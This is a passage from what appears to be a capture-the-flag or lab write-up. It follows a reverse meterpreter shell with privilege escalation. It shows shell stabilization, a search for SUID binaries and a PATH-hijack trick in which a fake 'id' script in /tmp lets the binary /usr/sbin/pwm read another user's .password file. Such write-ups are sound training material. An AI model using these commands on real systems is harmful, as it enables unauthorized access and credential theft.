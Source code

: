 ![[msfconsole.png]]

Using the vulnerability, we have managed to get a reverse meterpreter shell. Now, it's time for privilege escalation.

### Privilege Escalation
#### Shell Stabilization
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We checked if we're in the sudoers list but we aren't. Next, I checked the SUID permissions.

#### Search for SUID permissions
```bash
find / -perm -4000 2>/dev/null
```
- `/usr/bin/at` and `/usr/sbin/pwm` looked interesting but the `/usr/bin/at` didn't work. Now, it's time to dig into `/usr/sbin/pwm` in depth.

We ran the binary and got the following output where it is running the `id` binary and looking for the `.password` file under the user home.
![[User_priv_esc.png]]

#### Go inside the Home folder to Find Users
```bash
cd /home
```

There are 3 different users. I checked inside those users for the `.password` file.

```bash
ls -al think
```

The user `think` has the `.password` file that could contain the password of the user.
![[password_file.png]]

Now, we need to escalate our privileges to the `think` user to read that file. Since, the `/usr/sbin/pwm` is executing the `id` binary we can use this to escalate our privileges.

#### Create a fake ID binary under /tmp folder and give Executable permissions
```bash
echo -e '#!/bin/bash\necho "uid=33(think) gid=33(www-data) groups=33(www-data)"' > id && chmod +x id
```

Once the fake binary is created, we need to export the `/tmp` folder at the beginning so that our fake `id` runs instead of the real one.
```bash
export PATH=/tmp:$PATH
echo $PATH
```

